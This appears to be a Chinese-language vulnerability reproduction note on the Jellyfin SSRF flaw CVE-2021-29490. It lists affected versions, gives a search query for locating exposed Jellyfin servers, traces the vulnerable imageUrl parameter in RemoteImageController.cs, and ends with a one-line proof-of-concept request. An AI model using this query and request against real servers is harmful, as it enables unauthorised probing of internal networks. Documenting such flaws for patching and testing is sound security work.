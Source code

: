 # Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

# Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

```
Jellyfin < 10.7.2
```

## 网络测绘

```
app="Jellyfin"
```

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![](/images/202205241459343.png)

官方删除了某个方法

```
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件

```
Jellyfin.Api/Controllers/RemoteImageController.cs
```

![](/images/202205241459044.png)

其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞

![](/images/202205241459542.png)

构造请求POC

```
/Images/Remote?imageUrl=http://www.baidu.com
```

![](/images/202205241459712.png)

